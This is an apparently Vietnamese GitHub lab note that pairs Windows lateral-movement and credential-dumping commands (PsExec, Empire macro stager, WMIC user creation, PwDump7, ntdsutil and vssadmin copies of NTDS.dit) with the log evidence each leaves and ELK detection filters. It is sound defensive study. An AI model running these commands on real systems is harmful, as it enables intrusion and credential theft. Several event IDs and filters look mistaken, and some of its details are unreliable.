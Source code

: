 # Tổng hợp tấn công

## Test case 1: PsExec
* Command: `[Đường dẫn tới file psexec] \\[IP victim] -u [Username] -p [Password] [Thông thường sẽ là cmd.exe]`
* Ví dụ: `PsExec64.exe \\192.168.255.100 -u WINSRV2008\sv -p 123456sv. cmd/whoami`
* Bằng chứng thực thi: Tại đích chương trình PSEXESVC.exe được cài đặt.
  * **Event ID 11** tại Sysmon Event Log: `TargetFileName: C:\Windows\PSEXESVC.exe`
  * Hoặc **Event ID 704588 tại System Event Log: `Service File Name: %SystemRoot%\PSEXESVC.exe`
* Chuyển sang dạng filter trong ELK:
  * `event.code: 7045`
  * `winlog.event_data.ImagePath: %SystemRoot%\PSEXESVC.exe`


## Test case 2: Powershell Empire
* Tạo macro:
```
usestager /windows/macro
set Listener [Tên listener]
execute
```
* Sau đó macro sẽ được lưu trữ tại /tmp/macro. Copy nội dung này và paste vào file word.
* Bằng chứng thực thi: Sử dụng powershell nên sẽ sinh ra 2 sự kiện là **Event ID 11** tại Sysmon Log và **Event ID 400** tại Windows Powershell Event Log. Nội dung phần Host Application luôn bắt đầu bởi **powershell -noP -sta -w 1 -enc**
* Chuyển sang dạng filter trong ELK
  * `winlog.event_id: 400`
  * `winlog.event_data.param3: powershell -noP -sta -w 1 -enc`


## Test case 3: WinRM
* Command:
```
$cred = Get-Credential WINSRV2008\sv
Connect-WSMan -ComputerName "winsrv" -Credential $cred
cd wsman:
Hoặc Command Execution:
Invoke-Command -ComputerName "winsrv" -ScriptBlock { Get-ChildItem C:\ } -Credential $cred
```
* Bằng chứng thực thi:
  * **Event ID 4656** tại Security: (A handle to an object was requested)
  * `Process Name: C:\Windows\System32\wsmprovhost.exe`
  * `Object Name: \REGISTRY\MACHINE\SOFTWARE\MICROSOFT\Windows\CurrentVersion\WSMAN`
  
* Chuyển sang dạng filter trong ELK:
  * `event.code: 1`
  * `winlog.event_data.ProcessName: C:\Windows\System32\wsmprovhost.exe`
  * `winlog.event_data.ObjectName: \REGISTRY\\MACHINE\SOFTWARE\MICROSOFT\Windows\CurrentVersion\WSMAN`

## Test case 4: WinRS
* Command: `winrs -r:http://WINSRV:5985 -u:winsrv2008.local\administrator "cmd"`
* Bằng chứng thực thi:
  * **Event ID 1** tại Sysmon: (Process created): Sự đăng nhập từ xa của WinRS
  * `Image: C:\Windows\System32\winrshost.exe`
* Chuyển sang dạng filter trong ELK
  * `event.code: 1`
  * `process.executable: C:\Windows\System32\winrshost.exe`


## Test case 5: WMIC
* Command: `wmic /node:IP /user:[domain]\[Tài khoản Victim] /password:[Password của Victim] [Lệnh]`
* Ví dụ: `wmic /node:192.168.255.100 /user:WINSRV2008\administrator /password:123abc!!! process call create "cmd.exe /c net user hacker /add"`
* Bằng chứng thực thi: **Event ID 1** tại Sysmon Event Log: (Process Create): Tiến trình WmiPrvSE.exe khởi động chứng tỏ có một phiên WMIC được tiến hành từ xa và sau đó là các lệnh thực thi được ghi lại tại Sysmon Event Log
* Chuyển sang dạng filter trong ELK:
  * `event.code: 1`
  * `process.parent.executable: C:\Windows\System32\wbem\WmiPrvSE.exe`


## Test case 6: wmiexec.vbs
* Command: `wscript.exe //nologo wmiexec.vbs [Mode] Host Username Password`
* Ví dụ: `wscript.exe //nologo wmiexec.vbs /cmd 192.168.255.100 administrator 123abc!!! "net user"`
* Bằng chứng thực thi: 
  * **Event ID 1** tại Sysmon Event Log: (Process Create): Sự thực thi tiến trình WmiPrvSE.exe chứng tỏ có phiên WMI từ xa
  * **Event ID 11** tại Sysmon Event Log: (File Created) Sự tạo thành file wmi.dll
  * **Event ID 1** tại Sysmon Event Log: (Process Create) Xóa file wmi.dll
* Chuyển sang dạng filter trong ELK như sau:
  * Sự kiện xóa:
    * `event.code: 1`
    * `process.parent.executable: C:\Windows\System32\wbem\WmiPrvSE.exe`
    * `process.args: "C:\windows\temp\wmi.dll", "del"`


## Test case 7: PwDump7
* Command: Chạy dưới quyền admin: `.\PwDump7.exe`
* Bằng chứng thực thi:
  * **Event ID 11** tại Sysmon: (File Created): Khi chạy Pwdump7, chúng luôn gọi đến file "libeay32.dll". Nếu tên file Pwdump7 có thể thay đổi thì tên file libeay32.dll khó thay đổi hơn vì Pwdump7 đã được biên dịch thành file exe để thực thi, nếu muốn đổi ta phải code lại chúng. Giải pháp tạm thời này có thể phát hiện phần nào các tấn công sử dụng tool PwDump7, vì hiện tại rất khó để phát hiện chúng
    * `TargetFilename: libeay32.dll`

* Chuyển sang dạng filter trong ELK
  * `event.code: 11`
  * `file.path: libeay32.dll`
  * Hoặc
  * `event.code: 4663`
  * `winlog.event_data.ObjectName: libeay32.dll`
  * `message: Accesses: Execute/Traverse`

## Test case 8: Quarks PwDump
## Test case 9: WCE Password and Hash dump
## Test case 10: WCE Remote Login
## Test case 11: Golden Ticket
## Test case 12: AT Command
* Command: `at.exe \\192.168.255.100 10:00 cmd /c ping 8.8.8.8`


## Test case 13: RDP
## Test case 14: Mimikatz
## Test case 15: Bypass UAC
## Test case 16: ntdsutil
* Command: `ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q`
* Bằng chứng thực thi
  * **Event ID 8222** tại Security Log: Phát hiện sự thực thi của ntdsutil.exe
  * **Event ID 216** tại Application and Service Log: Phát hiện sự sao chép tập tin C:\Windows\NTDS\ntds.dit (Có ghi rõ điểm đến)
  * **Event ID 1** tại Sysmon: Phát hiện sự thực thi của ntdsutil.exe
    * `Image: C:\Windows\System32\ntdsutil.exe`
* Chuyển sang dạng filter trong ELK:
  * `event.code: 1`
  * `process.executable: C:\Windows\System32\ntdsutil.exe`


## Test case 17: vssadmin
* Command: Chạy command line dưới quyền admin và thư mục được tạo shadow copy phải có sẵn
```
vssadmin.exe create shadow /for=C: 2>&1 
cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\vssadmin\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\vssadmin\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY C:\vssadmin\
```
* Bằng chứng thực thi:
  * **Event ID 1** tại Sysmon Event Log: (Process Create): Sự thực thi của vssadmin
    * `CommandLine: C:\Windows\System32\vssadmin.exe`
* Chuyển sang dạng filter trong ELK
  * `event.code: 1`
  * `process.executable: C:\Windows\System32\vssadmin.exe `

## Test case 18: net user
## Test case 19: csvde
* Command: `.\csvde.exe -f C:\Users\sv\Desktop\adusers.csv -s 192.168.255.100 -r objectClass=user -b [user] [domain] [Password]`
* Ví dụ: `.\csvde.exe -f C:\Users\sv\Desktop\adusers.csv -s 192.168.255.100 -r objectClass=user -b sv WINSRV2008 123456sv.`

## Test case 20: ldifde
## Test case 21: timestomp


## Test case 22: wevtutil
Command:


